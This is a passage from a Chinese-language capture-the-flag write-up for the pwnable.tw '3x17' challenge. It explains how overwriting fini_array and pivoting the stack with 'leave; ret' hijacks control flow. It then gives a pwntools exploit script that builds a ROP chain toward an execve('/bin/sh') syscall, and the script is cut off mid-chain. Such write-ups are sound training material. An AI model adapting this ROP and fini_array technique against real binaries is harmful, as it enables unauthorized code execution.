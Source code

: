 \_\_libc_csu_fini中rbp作为fini_array[]寻址的一个寄存器，此时`rbp=0x4B40F0`。

若将跳转函数劫持到`leave ret`指令时，（leave = mov rsp, rbp pop rbp），则有

```
mov rsp, rbp;
rsp = rbp = 0x4B40F0
pop rbp;
rbp = [rsp] = [0x4B40F0] //fini_array[0]
rsp = 0x4B40F8
ret;
rip = [rsp] = [0x4B40F8] //fini_array[1]
rsp = 0x4B4100
```

这样就实现了劫持rsp，保证之后rip位置的代码不破坏栈结构，切存在ret指令来触发我们构造的ROP。

此时rip还是为main函数地址，但是注意开头有个变量检测（会溢出清0重新置1，所以会一直循环任意地址写），当不满足会直接返回，所以并不会破坏栈结构。

exp.py

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
ip = 'chall.pwnable.tw'
port = 10105

fini_array = 0x4B40F0
main_addr = 0x401B6D
__libc_csu_fini = 0x402960

#io = process("./3x17")
io = remote(ip, port)

#addr1 = str(fini_array)
#data1 = p64(__libc_csu_fini)+p64(main_addr)

def write_data(addr, data):
	io.recv()
	io.send(str(addr))
	io.recv()
	io.send(data)

write_data(fini_array,p64(__libc_csu_fini)+p64(main_addr))

rsp = 0x4B4100
bin_sh_addr = 0x00000000004B41C0 # data段随便找的一个空位置写入

'''
0x000000000041e4af : pop rax ; ret
0x0000000000401696 : pop rdi ; ret
0x0000000000406c30 : pop rsi ; ret
0x0000000000446e35 : pop rdx ; ret
0x0000000000471db5 : syscall ; ret
0x0000000000401c4b : leave ; ret
'''
rax_addr = 0x000000000041e4af
rdi_addr = 0x0000000000401696
rsi_addr = 0x0000000000406c30
rdx_addr = 0x0000000000446e35
syscall_addr = 0x0000000000471db5
leaveret_addr = 0x0000000000401c4b

write_data(bin_sh_addr, '/bin/sh\x00')

write_data(rsp, p64(rax_addr)+p64(0x3b))
write_data(rsp+16, p64(rdi_addr)+p64(bin_sh_addr))
```
